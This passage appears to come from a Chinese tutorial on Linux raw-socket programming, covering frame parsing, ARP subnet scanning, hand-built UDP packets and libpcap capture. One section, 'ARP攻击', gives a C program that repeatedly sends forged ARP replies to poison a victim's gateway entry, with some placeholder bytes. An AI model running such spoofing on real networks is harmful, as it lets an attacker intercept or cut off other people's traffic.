        sprintf(dst_mac, "%02x:%02x:%02x:%02x:%02x:%02x", buf[0], buf[1], buf[2], buf[3], buf[4], buf[5]);
        sprintf(src_mac, "%02x:%02x:%02x:%02x:%02x:%02x", buf[0 + 6], buf[1 + 6], buf[2 + 6], buf[3 + 6], buf[4 + 6], buf[5 + 6]);
        // 在数据帧中，第12位地址是类型，却有2字节
        // 但是由于buf是无符号字符类型
        // 使用*(buf+12)只能取到1字节，因此需要转换类型取值
        // 取出的网络字节序，代码中是主机字节序，所以需要转换
        mac_type = ntohs(*(unsigned short *)(buf + 12));
        if (mac_type == 0x0800)
        {
            printf("------ip报文----\n");
            //跳过以太网头部 6+6+2=14
            unsigned char *ip_addr=buf+14;
        }
        else if (mac_type == 0x0806)
        {
            printf("------ARP报文----\n");
        }
        else if (mac_type == 0x8035)
        {
            printf("------RARP报文----\n");
        }
    }

    close(sockfd);
    return 0;
}
```

### 解包ip报文

为了能够知道下一次要处理的数据首地址，必须先获取首部长度。



```c
//获取到数据帧，并且得知为ip报文以后
if (mac_type == 0x0800)
{
    printf("------ip报文----\n");
    // 跳过以太网头部 6+6+2=14
    unsigned char *ip_addr = buf + 14;
    // 获取首部长度
    int ip_addr_len = ((*ip_addr) & 0x0f) * 4;
    char src_ip[16] = "";
    char dst_ip[16] = "";
    // 可以通过*(int *)(ip_addr+12)获取
    // 直接将源IP地址转换为点分十进制表示的字符串，而无需手动进行字节操作
    inet_ntop(AF_INET, ip_addr + 12, src_ip, 16);
    inet_ntop(AF_INET, ip_addr + 16, dst_ip, 16);
    unsigned char ip_type = ip_addr[9];
    if (ip_type == 1) // ICMP  ,取值详见  协议类型 小节
    {
        printf("------ICMP----\n");
    }
    else if (ip_type == 2)
    {
        printf("------IGMP----\n");
    }
    else if (ip_type == 6)
    {
        printf("------TCP----\n");
    }
    else if (ip_type == 17)
    {
        printf("------UDP----\n");
    }
}
```

### 解包UDP报文

```c
else if (ip_type == 17)
{
    printf("------UDP----\n");
    unsigned char *udp_addr = ip_addr + ip_addr_len;
    unsigned short src_port = ntohs(*(unsigned short *)(udp_addr));
    unsigned short dst_port = ntohs(*(unsigned short *)(udp_addr + 2));

}
```

### 解包TCP报文

```c
else if (ip_type == 6)
{
    printf("------TCP----\n");
    unsigned char *tcp_addr = ip_addr + ip_addr_len;
    unsigned short src_port = ntohs(*(unsigned short *)(tcp_addr));
    unsigned short dst_port = ntohs(*(unsigned short *)(tcp_addr + 2));
    // 获取首部长度,先将值右移四位，再与
    int tcp_addr_len = (((*(tcp_addr+12))>>4)&0x0f)*4;

}
```

## 混杂模式

混杂模式 ：

- 指一台机器的网卡能够接收所有经过它的数据包，而不论其目的地址是否是它。 
- 一般计算机网卡都工作在非混杂模式下，如果设置网卡为混杂模式需要root权 
  - 设置混杂模式：ifconfigeth0promisc
  -  取消混杂模式：ifconfigeth0-promisc

 linux 下通过程序设置网卡混杂模式：



## 发送原始套接字数据

### sendto发送帧数据

```c
sendto(sock_raw_fd, msg, msg_len, 0,(struct sockaddr*)&sll, sizeof(sll));
```

注意：

- sock_raw_fd：原始套接字 
- msg:发送的消息（封装好的协议数据）
- sll:本机网络接口，指==**发送的数据应该从<u>本机</u>的哪个<u>网卡</u>**==出去，而不是以前的目的地址.
  - 因为目的地址本身就已经封装在了协议数据里面(数据帧)

### 获取本机的接口

```c
#include <netpacket/packet.h>
struct sockaddr_ll;
struct sockaddr_ll sll;
```

```c
//struct sockaddr_ll成员
struct sockaddr_ll{
    unsigned short int sll_family;    /*一般为PF_PACKET*/
    unsigned short int sll_protocol;  /*上层协议*/
    int sll_ifindex;                  /*接口类型*/
    unsigned short int sll_hatype;    /*报头类型*/
    unsigned char sll_pkttype;        /*包类型*/
    unsigned char sll_halen;          /*地址长度*/
    unsigned char sll_addr[8];        /*MAC地址*/
};
```

注意：

- 只需要对sll.sll_ifindex 赋值，就可使用。


### 为sll.sll_ifindex赋值网卡接口

```c
#include <sys/ioctl.h>
//存在 IFNAMSIZ 宏 等于 16
int ioctl(int fd, int request,void *);
```

定义struct ifreq结构体：

```c
#include <net/if.h>
struct ifreq
```



**固定写法**：

1 . 获取网络接口

```c
struct ifreq ethreq;      //网络接口地址
strncpy (ethreq.ifr_name, "eth0", IFNAMSIZ);      //指定网卡名称 为eth0，控制在最多16字节以内
if(-1 == ioctl(sock_raw_fd,SIOCGIFINDEX,&ethreq)) //获取网络接口
{
    perror ("ioctl");
    close (sock_raw_fd);
    exit (-1);
}
```

2 .  给sll赋值

```c
struct sockaddr_ll sll;
bzero(&sll,sizeof (sll));
sll.sll_ifindex =ethreq.ifr_ifindex ;
```

3 . 发送

```c
int len = sendto(sock_raw_fd,msg, sizeof (msg),0,(struct sockaddr*) &sll，sizeof(sll)) ;
```

### mac地址扫描器

获取局域网的所有mac地址

#### 案例：通过ARP协议获取mac地址

ARP（Address Resolution Protocol，地址解析协议） 

- 请求方使用广播来发送请求 
- 应答方使用单播来回送数据

**ARP 协议格式**：



```c

#include <sys/socket.h>
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <netinet/ether.h>
#include <netpacket/packet.h>
#include <sys/ioctl.h>
#include <net/if.h>
#include <string.h>
int main(int argc, char const *argv[])
{
    // 创建套接字
    int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));

    // 构建arp请求报文
    unsigned char buf[] = {
        /*----mac头部----14字节*/
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, // 目的mac
        0x00, 0x11, 0x11, 0x11, 0x51, 0xa5, // 源mac
        0x08, 0x06,                         // mac类型，arp协议
        /*----arp头部----28字节*/
        0x00, 0x01,                         // 1 硬件类型-以太网地址
        0x08, 0x00,                         // 协议类型：IP
        0x06,                               // mac地址长度 ，这里地址长度为6，因为MAC地址的长度是48位
        0x04,                               // 协议地址长度,因为MAC地址的长度是32位
        0x00, 0x01,                         // 1= ARP请求
        0x00, 0x11, 0x11, 0x11, 0x51, 0xa5, // 源mac
        192, 168, 11, 178,                   // 源ip (不是必须16进制)
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // 目的mac,arp请求是不知道目的mac的，所以写0
        192, 168, 3, 107                    // 目的ip
    };

    // 发送请求报文
    struct ifreq ethreq;
    strncpy(ethreq.ifr_name, "ens33", IF_NAMESIZE);

    int ioBack = ioctl(sockfd, SIOCGIFINDEX, &ethreq);
    if (ioBack == -1)
    {
        perror("ioctl");
        close(sockfd);
        return 0;
    }
    struct sockaddr_ll sll;
    bzero(&sll, sizeof(sll));
    sll.sll_ifindex = ethreq.ifr_ifindex;
    sendto(sockfd, buf, 42, 0, (struct sockaddr *)&sll, sizeof(sll));

    // 接收对方的应答
    while (1)
    {
        unsigned char buf[1500] = "";
        struct sockaddr_in addr;
        int len = recvfrom(sockfd, buf, sizeof(buf), 0, NULL, NULL);
        if (len > 0)
        {
            // 判断是否是arp报文
            unsigned short mac_type = ntohs(*((unsigned short *)(buf + 12)));
            if (mac_type == 0x0806)
            {
                // arp报文
                unsigned short op_type = ntohs(*((unsigned short *)(buf + 20)));
                if (op_type == 2)
                {
                    // ARP应答
                    char src_ip[16] = "";
                    char src_mac[18] = "";
                    sprintf(src_mac,"%02x:%02x:%02x:%02x:%02x:%02x",buf[22],buf[23],buf[24],buf[25],buf[26],buf[27]);
                    sprintf(src_ip,"%d.%d.%d.%d",buf[22+6],buf[23+6],buf[24+6],buf[25+6]);
                    if(strcmp(src_ip,"192.168.3.107")==0){
                        printf("win的IP");
                        break;
                    }
                }
            }
        }
    }

    return 0;
}
```

#### 通过arp协议扫描整个目的局域网的mac

```c

#include <sys/socket.h>
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <netinet/ether.h>
#include <netpacket/packet.h>
#include <sys/ioctl.h>
#include <net/if.h>
#include <string.h>
#include <pthread.h>
void sendFun(int sockfd, void *buf, int len, char *name)
{
    // 发送请求报文
    struct ifreq ethreq;
    strncpy(ethreq.ifr_name, name, IF_NAMESIZE);

    int ioBack = ioctl(sockfd, SIOCGIFINDEX, &ethreq);
    if (ioBack == -1)
    {
        perror("ioctl");
        close(sockfd);
        return ;
    }
    struct sockaddr_ll sll;
    bzero(&sll, sizeof(sll));
    sll.sll_ifindex = ethreq.ifr_ifindex;
    sendto(sockfd, buf, len, 0, (struct sockaddr *)&sll, sizeof(sll));
}

void *rec_fun(void *arg)
{
    int sockfd = *(int *)arg;
    // 接收对方的应答
    while (1)
    {
        unsigned char buf[1500] = "";
        struct sockaddr_in addr;
        int len = recvfrom(sockfd, buf, sizeof(buf), 0, NULL, NULL);
        if (len > 0)
        {
            // 判断是否是arp报文
            unsigned short mac_type = ntohs(*((unsigned short *)(buf + 12)));
            if (mac_type == 0x0806)
            {
                // arp报文
                unsigned short op_type = ntohs(*((unsigned short *)(buf + 20)));
                if (op_type == 2)
                {
                    // ARP应答
                    char src_ip[16] = "";
                    char src_mac[18] = "";
                    sprintf(src_mac, "%02x:%02x:%02x:%02x:%02x:%02x", buf[22], buf[23], buf[24], buf[25], buf[26], buf[27]);
                    sprintf(src_ip, "%d.%d.%d.%d", buf[22 + 6], buf[23 + 6], buf[24 + 6], buf[25 + 6]);
                    if (strcmp(src_ip, "192.168.11.107") == 0)
                    {
                        printf("win的IP");
                        break;
                    }
                }
            }
        }
    }
}

int main(int argc, char const *argv[])
{
    // 创建套接字
    int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));

    // 在开始发送之前就开始准备接收返回，但是为了防止阻塞，开启线程
    pthread_t pid;
    pthread_create(&pid, NULL, rec_fun, &sockfd);
    pthread_detach(pid);
    // 构建arp请求报文
    for (int i = 1; i < 255; i++)
    {
        unsigned char buf[] = {
            /*----mac头部----14字节*/
            0xff, 0xff, 0xff, 0xff, 0xff, 0xff, // 目的mac
            0x11, 0x0c, 0x19, 0x11, 0x11, 0xa5, // 源mac
            0x08, 0x06,                         // mac类型，arp协议
            /*----arp头部----28字节*/
            0xxx, 0x01,                         // 1 硬件类型-以太网地址
            0x08, 0x00,                         // 协议类型：IP
            0x06,                               // mac地址长度 ，这里地址长度为6，因为MAC地址的长度是48位
            0x04,                               // 协议地址长度,因为MAC地址的长度是32位
            0x00, 0x01,                         // 1= ARP请求
            0x11, 0x11, 0x11, 0xxx, 0x51, 0xa5, // 源mac
            192, 168, 3, x8,                   // 源ip (不是必须16进制)
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // 目的mac,arp请求是不知道目的mac的，所以写0
            192, 168, 3, i                      // 目的ip
        };
        sendFun(sockfd, buf, 42, "ens33");
    }


    sleep(10);//等待几秒，相当于超时时间
    pthread_cancel(pid);

    return 0;
}
```

## ARP攻击

在链路层如果arp表中没有目的mac地址 就使用arp协议广播得到目的主机的mac，更新arp 表 

- `arp-a`

==ARP 的**BUG**==:

- 如果arp 表中纪录了10.9.72.1 的 mac,这时任何一个人给你的电脑发送arp应 答 ，你的主机也会修改arp表。（不管自己是否发送了请求）
  - 当主机想要将直接的数据帧想要发送数据至不同网段时都要通过路由器，首先会通过arp协议，获取路由的mac地址，因此主机发送的数据帧中的目标mac地址，都是路由器的mac地址【也就是下一跳的mac】
  - 获取路由器的mac地址后，将会更新自身的arp表
  - 此时当破环者，利用漏洞修改了主机的arp表中的记录的mac地址后，可以选择将主机的mac地址改为全0，导致数据找不到网关，而无法发送。或者修改为自身的mac，让主机的数据包，全部发送到自己哪里



```c
#include <stdio.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netinet/ether.h>    //ETH_P_ALL
#include <netpacket/packet.h> //struct sockaddr_ll
#include <net/if.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <pthread.h>
void my_sendto(int sockfd, void *buf, int len, char *name);
int main(int argc, char const *argv[])
{
    // 1、创建原始套接字
    int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    // 2、构建arp请求报文
    unsigned char buf[] = {
        /*-------mac头-------14B--*/
        0xw, 0xw, 0xw, 0xw, 0xw, 0xw,       /*目的mac被攻击的人的windows的mac*/
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /*源mac 假的mac*/
            0x08, 0x06,                         /*mac的类型arp协议*/
            /*--------ARP头------28B--*/
            0x00, 0x01,                         /*硬件类型*/
            0x08, 0x00,                         /*协议类型*/
            6,                                  /*硬件地址长度*/
            4,                                  /*协议地址长度*/
            0x00, 0x02,                         /*arp应答*/
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /*源mac 假的mac*/
            10, 9, 72, 1,                       /*被攻击的人的arp表中的网关的IP*/
            0xw, 0xw, 0x30xwF, 0xw, 0xw, 0xw,   /*目的mac被攻击的人的windows的mac*/
            10, 9, 72, 0xw                      /*被攻击人的windows的IP*/
    };
    while (1)
    {
        my_sendto(sockfd, buf, 42, "ens38");
        sleep(1);
    }
    return 0;
}
void my_sendto(int sockfd, void *buf, int len, char *name)
{
    // 3、发送arp请求报文
    struct sockaddr_ll sll; // 如果不给sll清0容易导致sendto出参数问题
    bzeor(&sll, sizeof(sll));
    // 获取本地接口
    struct ifreq ethreq;
    strncpy(ethreq.ifr_name, name, IF_NAMESIZE);
    if (-1 == ioctl(sockfd, SIOCGIFINDEX, &ethreq))
    {
        perror("ioctl");
        close(sockfd);
        _exit(-1);
    }
    sll.sll_ifindex = ethreq.ifr_ifindex;
    int ret = sendto(sockfd, buf, len, 0, (struct sockaddr *)&sll, sizeof(sll));
    if (ret < 0)
    {
        perror("sendto");
        _exit(-1);
    }
}
```

## 发送原始套接字数据【使用结构体】

### 以太网头部

有两种：

`struct ether_header`: 【推荐】

- 该结构体在**`<net/ethernet.h>`**声明

```c
//结构体成员
struct ether _header{
    u_int8_t  ether_dhost[ETH_ALEN];/*目的MAc地址*/
    u_int8_t  ether_shost[ETH_ALEN];/*源MAc地址*/
    u_int16_t ether_type;          /*帧类型*/
};

```

`struct ethhdr`

- 该结构体在**`#include <linux/if_ether.h>`**  声明

```c
//结构体成员
struct ethhdr{
    unsigned char h_dest [ETH_ALEN]; /*目的MAc地址*/
    unsigned char h_source[ETH_ALEN];/*源MAc地址*/
    unsigned short int h_proto;       /*帧类型*/
};
```

例子：

```c
// 1、创建原始套接字
int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));

// 获取应用层数据
char data[256] = "";
fgets(data, sizeof(data), stdin);
data[strlen(data) - 1] = 0;
int data_len = strlen(data);
unsigned char buf[1500] = "";
unsigned char src_mac[6] = {0x11, 0x11, 0xss, 0xcb, 0xcc, 0xac};
unsigned char dst_mac[6] = {0xcC, 0xc3, 0x5c, 0xcB, 0xcc, 0xF0};
// 2.1 构建mac报文【使用结构体，不再一个字节一个字节组包】
// 通过强转buf类型。赋给结构体指针，让该指针可以操作buf内部数据
struct ether_header *etherStr = (struct ether_header *)buf;
// 这里不能使用strcpy，因为字符数组中可能会有0x00，导致复制提前结束
memcpy(etherStr->ether_dhost, dst_mac, 6);
memcpy(etherStr->ether_shost, src_mac, 6);
etherStr->ether_type = htons(0x0800);
```


### ARP头部

`Struct arphdr`

- 该结构体在**` #include <net/if_arp.h>`**  声明

```c
struct arphdr
unsigned short int ar_hrd;/*硬件类型*/
unsigned short int ar_pro; /*协议类型*/
unsigned char ar_hln;/*硬件地址长度*/
unsigned char ar_pln;/*协议地址长度*/
unsigned short int ar_op;/* ARP命令*/

#if 0
unsigned char _ar_sha[ETH_ALEN];/*发送端以太网地址*/
unsigned char _ar_sip[4]; /*发送端工卫地址*/
unsigned char _ar_tha[ETH_ALEN];/*目的以太网地址*/
unsigned char _ar_tip[ 4];/*目的IP地址*/
#endif
```

### IP头部

`struct iphdr`

- 该结构体在**` #include <netinet/ip.h>`**  声明

```c
struct iphdr{
    //如果字节序是小端
    #if __BYTE_ORDER ==__LITTLE_ENDIAN

    unsigned int ihl:4;       /*首部长度*/
    unsigned int version:4;   /*版本 */
    //如果字节序是大端
    #elif __BYTE_ORDER ==__BIG_ENDIAN

    unsigned int version:4;   /*版本*/
    unsigned int ihl: 4;      /*首部长度*/

    #else

    #error "Please fix bits/endian. h>"

    #endif

    u_int8_t tos;       /*服务类型*/
    u_int16_t tot_len;  /*总长度*/
    u_int16_t id;       /*标识*/
    u_int16_t frag_off; /*标志、片偏移*/
    u_int8_t ttl;       /*生存时间*/
    u_int8_t protocol;  /*协议*/
    u_int16_t check;    /*首部校验和*/
    u_int32_t saddr ;   /*源地址*/
    u_int32_t daddr ;   /*目的地址*/
    /*选项从这里开始*/
}
```


**校验函数**：

```c
// buf:校验的起始位置，len：需要校验的字节数
unsigned short checksum(unsigned short *buf, int len)
{
    int nword = len / 2;
    unsigned long sum;
    if (len % 2 == 1)
        nword++;
    for (sum = 0; nword > 0; nword--)
    {
        sum += *buf;
        buf++;
    }
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    return ~sum;
}
```

例子：

```c
// 2.2 构建IP报文
struct iphdr *ipHdrStr = (struct iphdr *)(buf + 14);
ipHdrStr->version = 4;                        // ip4版本
ipHdrStr->ihl = 5;                            // ip报文首部长度（不操作选项，所以是20字节）
ipHdrStr->tos = 0;                            // 服务类型
ipHdrStr->tot_len = htons(20 + 8 + data_len); // ip报文的总长度
ipHdrStr->id = htons(0);                      // 标识
ipHdrStr->frag_off = htons(0);                // 标志
ipHdrStr->ttl = 128;                          // 生存时间，周期
ipHdrStr->protocol = 17;                      // 上层协议为UDP
ipHdrStr->check = htons(0);                   // ？校验实际在之后，这里先填充0
ipHdrStr->saddr = inet_addr("xxx.xx.x.xxx"); // 源ip
ipHdrStr->daddr = inet_addr("xxx.xxx.x.xxx"); // 目的ip

// 2.3 ip报文头的 校验
ipHdrStr->check=checksum((unsigned short *)ipHdrStr, 20);
```


### UPD头部

`struct udphdr`

- 该结构体在**`#include <netinet/udp.h>`**  声明

```c
struct udphdr{
    u_int16_t source;    /*源端口号*/
    u_int16_t dest;     /*目的端口号*/
    u_int16_t len;      /*长度*/
    u_int16_t check ;   /*校验和*/
}
```



例子：

```c
//由于校验需要伪头部，然而又没有对应的头文件，需要自己定义
typedef struct
{
    u_int32_t saddr;
    u_int32_t daddr;
    u_int8_t flag;
    u_int8_t pro;
    u_int16_t len;
} flaseHead;
```

```c
// 2.4 构建UPD报文头
struct udphdr *udpHdrStr = (struct udphdr *)(buf + 14 + 20);
udpHdrStr->source = htons(8000);      // 源端口
udpHdrStr->dest = htons(2000);        // 目的端口
udpHdrStr->len = htons(8 + data_len); // udp的报文长度
udpHdrStr->check = htons(0);
// 2.5 将应用数据data拷贝到buf中udp的数据部分
memcpy(buf + 14 + 20 + 8, data, data_len);

// 2.6 定义伪头部
unsigned char flaseBuf[256] = "";
flaseHead *p = (flaseHead *)flaseBuf;
p->saddr = inet_addr("192.xxx.3.178"); // 源ip
p->daddr = inet_addr("192.xxx.3.107"); // 目的ip
p->flag = 0;
p->pro = 17;
p->len = htons(8 + data_len);
memcpy(flaseBuf + 12, udpHdrStr, 8 + data_len);

// 2.7 udp的校验
udpHdrStr->check = checksum((unsigned short *)flaseBuf, 12 + 8 + data_len);
```


### TCP头部

`struct tcphdr`

- 该结构体在**`#include <netinet/tcp.h>`**  声明

```c
struct tcphdr{
    u_int16_t source;/*源端口号*/
    u_int16_t dest;/*目的端口号*/
    u_int32_t seq;/*序列号*/
    u_int32_t ack_seq;/*确认序号大*/

    #if __BYTE_ORDER==__LITTLE_ENDIAN

    u_int16_t res1:4;/**/
    u_int16_t doff: 4;/*保留:4*/
    u_int16_t fin: 1;/*终止E工N*/
    u_int16_t syn: 1;/*同步sYN*/
    u_int16_t rst :1;/*复位RST*/
    u_int16_t psh:1;/*推送PSH*/
    u_int16_t ack:1;/*确认ACK*/
    u_int16_t urg:1;/*紧急URG*/
    u_int16_t res2 : 2;/*保留:2*/

    #elif __BYTE_ORDER==__BIG_ENDIAN

    u_int16_t doff:4;/*首部长度*/
    u_int16_t res1: 4;/*保留:4*/
    u_int16_t res2:2;/*保留:2*/
    u_int16_t urg: 1;/*紧急URG*/
    u_int16_t ack: 1;/*确认ACK*/
    u_int16_t psh:1;/*推送PSH*/
    u_int16_t rst:1;/*复位RST*/
    u_int16_t syn:1;/*同步sYN*/
    u_int16_t fin: 1;/*终止EIN*/
    #else

    #error "Adjust your bits/endian.h>defines"

    #endif

    u_int16_t window ; /*窗口*/
    u_int16_t check;   /*校验和*/
    u_int16_t urg_ptr;/*疑急指针*/
}
```

### 使用结构体发送UDP报文完整代码

```c
#include <stdio.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <net/if.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <netpacket/packet.h>
#include <netinet/ether.h>
#include <net/ethernet.h>
#include <string.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
typedef struct
{
    u_int32_t saddr;
    u_int32_t daddr;
    u_int8_t flag;
    u_int8_t pro;
    u_int16_t len;
} flaseHead;
void my_sendto(int sockfd, void *buf, int len, char *name);
unsigned short checksum(unsigned short *buf, int len);
int main(int argc, char const *argv[])
{
    // 1、创建原始套接字
    int sockfd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));

    // 获取应用层数据
    char data[256] = "";
    printf("请输入要发送的数据");
    fgets(data, sizeof(data), stdin);
    data[strlen(data) - 1] = 0;
    int data_len = strlen(data);
    unsigned char buf[1500] = "";
    unsigned char src_mac[6] = {0xxx, 0xxx, 0xxx, 0xxx, 0xxx, 0xxx};
    unsigned char dst_mac[6] = {0xxx, 0xxx, 0x58, 0x2B, 0xxx, 0xxx};
    // 2.1 构建mac报文【使用结构体，不再一个字节一个字节组包】
    // 通过强转buf类型。赋给结构体指针，让该指针可以操作buf内部数据
    struct ether_header *etherStr = (struct ether_header *)buf;
    // 这里不能使用strcpy，因为字符数组中可能会有0x00，导致复制提前结束
    memcpy(etherStr->ether_dhost, dst_mac, 6);
    memcpy(etherStr->ether_shost, src_mac, 6);
    etherStr->ether_type = htons(0x0800);

    // 2.2 构建IP报文
    struct iphdr *ipHdrStr = (struct iphdr *)(buf + 14);
    ipHdrStr->version = 4;                        // ip4版本
    ipHdrStr->ihl = 5;                            // ip报文首部长度（不操作选项，所以是20字节）
    ipHdrStr->tos = 0;                            // 服务类型
    ipHdrStr->tot_len = htons(20 + 8 + data_len); // ip报文的总长度
    ipHdrStr->id = htons(0);                      // 标识
    ipHdrStr->frag_off = htons(0);                // 标志
    ipHdrStr->ttl = 128;                          // 生存时间，周期
    ipHdrStr->protocol = 17;                      // 上层协议为UDP
    ipHdrStr->check = htons(0);                   // ？校验实际在之后，这里先填充0
    ipHdrStr->saddr = inet_addr("1xx.1xx.x.178"); // 源ip
    ipHdrStr->daddr = inet_addr("1xx.1xx.x.107"); // 目的ip

    // 2.3 ip报文头的 校验
    ipHdrStr->check = checksum((unsigned short *)ipHdrStr, 20);

    // 2.4 构建UPD报文头
    struct udphdr *udpHdrStr = (struct udphdr *)(buf + 14 + 20);
    udpHdrStr->source = htons(8000);      // 源端口
    udpHdrStr->dest = htons(2000);        // 目的端口
    udpHdrStr->len = htons(8 + data_len); // udp的报文长度
    udpHdrStr->check = htons(0);
    // 2.5 将应用数据data拷贝到buf中udp的数据部分
    memcpy(buf + 14 + 20 + 8, data, data_len);

    // 2.6 定义伪头部
    unsigned char flaseBuf[256] = "";
    flaseHead *p = (flaseHead *)flaseBuf;
    p->saddr = inet_addr("xxx.x.xx.178"); // 源ip
    p->daddr = inet_addr("xxx.xx.x.107"); // 目的ip
    p->flag = 0;
    p->pro = 17;
    p->len = htons(8 + data_len);
    memcpy(flaseBuf + 12, udpHdrStr, 8 + data_len);

    // 2.7 udp的校验
    udpHdrStr->check = checksum((unsigned short *)flaseBuf, 12 + 8 + data_len);

    //  3.发送数据;
    my_sendto(sockfd, buf, 14 + 20 + 8 + data_len, "ens33");
    return 0;
}

void my_sendto(int sockfd, void *buf, int len, char *name)
{

    struct sockaddr_ll sll; // 如果不给sll清0容易导致sendto出参数问题
    bzero(&sll, sizeof(sll));
    // 获取本地接口
    struct ifreq ethreq;
    strncpy(ethreq.ifr_name, name, IF_NAMESIZE);
    if (-1 == ioctl(sockfd, SIOCGIFINDEX, &ethreq))
    {
        perror("ioctl");
        close(sockfd);
        _exit(-1);
    }
    sll.sll_ifindex = ethreq.ifr_ifindex;
    int ret = sendto(sockfd, buf, len, 0, (struct sockaddr *)&sll, sizeof(sll));
    if (ret < 0)
    {
        perror("sendto");
        _exit(-1);
    }
}

// buf:校验的起始位置，len：需要校验的字节数
unsigned short checksum(unsigned short *buf, int len)
{
    int nword = len / 2;
    unsigned long sum;
    if (len % 2 == 1)
        nword++;
    for (sum = 0; nword > 0; nword--)
    {
        sum += *buf;
        buf++;
    }
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    return ~sum;
}
```

## 捕获网络数据库-libpcap

### libpcap

libpcap 用于捕获网络数据。

**Libpcap 主要的作用**：

- **捕获**各种数据包 
  - 例如：网络流量统计 
- **过滤**网络数据包 
  - 例如：过滤掉本地上的一些数据，类似防火墙
-  **分析**网络数据包 
  - 例如：分析网络协议，数据的采集 
- **存储**网络数据包 
  - 例如：保存捕获的数据以为将来进行分析

**libpcap安装**：

```makefile
sudo apt-get update
sudo apt-get install libpcap-dev
```

-  gcc 编译时需要加上-lpcap .
- 运行时需要使用超级权限 .
- 所需头文件`#include <pcap/pcap.h>`.

### libpcap 开发流程

利用libpcap函数库开发应用程序的基本步骤：

1. 打开网络设备 
2. 设置过滤规则 
3. 捕获数据 
4. 关闭网络设备 

捕获网络数据包常用函数 

- pcap_lookupdev( ) 
- pcap_open_live( ) 
- pcap_lookupnet( ) 
- pcap_compile( )、 pcap_setfilter( ) 
- pcap_next( )、pcap_loop( ) 
- pcap_close( )

### 得到可用的网络设备名指针pcap_lookupdev

```c
#include <pcap/pcap.h>
char *pcap_lookupdev(char *errbuf)
```

功能： 

- 得到可用的网络设备名指针 

参数: 

- errbuf:存放相关的错误信息 

返回值： 

- 成功：返回设备名指针； 
- 失败：返回NULL

```c
//查看设备名
char *dev=NULL;
char error_buf[32]="";
dev=pcap_lookupdev(error_buf);
if(dev==NULL)
{
    printf("%s\n",error_buf);
    return 0;
}
printf("%s\n",dev);
```


### 打开一个用于捕获数据的网络接口pcap_open_live

```c
#include <pcap/pcap.h>
pcap_t *pcap_open_live(const char *device,
                      int snaplen,
                      int promisc,
                      int to_ms,
                      char *ebuf)
```

功能： 

- 打开一个用于捕获数据的句柄 

返回值： 

- 返回一个Libpcap句柄 

参数：

- device：网络接口的名字 
- snaplen：捕获数据包的长度 
- promise：
  - 1代表混杂模式,
  - 其它非混杂模式 
- to_ms：等待时间0为不等待,单位-秒
- ebuf：存储错误信息

```c
//1、得到pcap的句柄
char err_buf[128]="";
pcap_t *pcap= pcap_open_live("ens38",1500,0,0,err_buf);
if(NULL==pcap)
{
    perror("pcap_open_live");
    printf("%s\n",err_buf);
    return 0;
}
```

### 获得指定网络设备的网络号和掩码pcap_lookupnet

```c
int pcap_lookupnet(char *device,bpf_u_int32 *netp,
 bpf_u_int32 *maskp,char *errbuf)
```

功能：

-  获得指定网络设备的网络号和掩码

 参数： 

- device：网络设备名 
- netp：存放网络号的指针 
- maskp：存放掩码的指针 
- errbuf：存放出错信息 

返回值： 

- 成功返回：0，
- 失败返回：-1

```c
unsigned int ip,mask;
char ip_str[16]="";
char mask_str[16]="";
pcap_lookupnet("ens38",&ip,&mask,NULL);
inet_ntop(AF_INET,&ip,ip_str,16);
inet_ntop(AF_INET,&mask,mask_str,16);
printf("ip_str:%smask_str:%s\n",ip_str,mask_str);
```

### 捕获一个网络数据包-pcap_next

pcap_next调用一次只能捕获一个帧数据

```c
const u_char *pcap_next(pcap_t *p,struct pcap_pkthdr *h)
```

```c
//struct pcap_pkthdr  成员
struct pcap_pkthdr{
    struct timeval ts;  /*时间戳*/
    bpf_u_int32 caplen; /*存在部分的长度*/
    bpf_u_int32 len;    /*包的长度（废弃）*/
};
```

功能： 

- 捕获一个网络数据包 

参数： 

- p：Libpcap句柄 
- h：数据包头 

返回值： 

- 捕获的数据包的地址

### 关闭Libpcap操作，并销毁相应的资源pcap_close

```c
void pcap_close(pcap_t *p);
//功能：
//关闭Libpcap操作，并销毁相应的资源
//参数
//p:需要关闭的Libpcap句柄
//返回值：
//无
```

### 循环捕获网络数据包pcap_loop

```c
int pcap_loop(pcap_t *p,int cnt,
              pcap_handler callback,
              u_char *user)
```

```c
//pcap_handler函数指针类型：
typedef void(*pcap_handler)(u_char *user,const struct pcap_pkthdr *h,const u_char *bytes);
//user:pcap_loop传递过来的参数
//const struct pcap_pkthdr：帧数数据的报文信息（时间、长度）
//bytes：保存的是帧数据的首元素地址
```

功能: 

- 循环捕获网络数据包，直到遇到错误或者满足退出条件；
- 每次捕获一个数据包就会调用 callback 指示的回调函 数，所以，可以在回调函数中进行数据包的处理操作 

参数: 

- p：Libpcap 句柄 
- cnt：指定捕获数据包的个数，如果是-1，就 会永无休止的捕获 
- callback：回调函数（一个帧数触发一次回调函数） 
- user：向回调函数中传递的参数

返回值： 

- 成功返回：0，
- 失败返回：负数 

```c
#include<stdio.h>
#include<arpa/inet.h>
#include<pcap/pcap.h>
void deal_net_data(u_char *user,const struct pcap_pkthdr *h,const u_char *bytes)
{
    char src_mac[18]="";
    char dst_mac[18]="";
    printf("数据长度:%d%d\n",h->len,h->caplen);
    sprintf(dst_mac,
            "%02x:%02x:%02x:%02x:%02x:%02x",
            bytes[0],bytes[1],bytes[2],
            bytes[3],bytes[4],bytes[5]);
    sprintf(src_mac,
            "%02x:%02x:%02x:%02x:%02x:%02x",
            bytes[6],bytes[7],bytes[8],
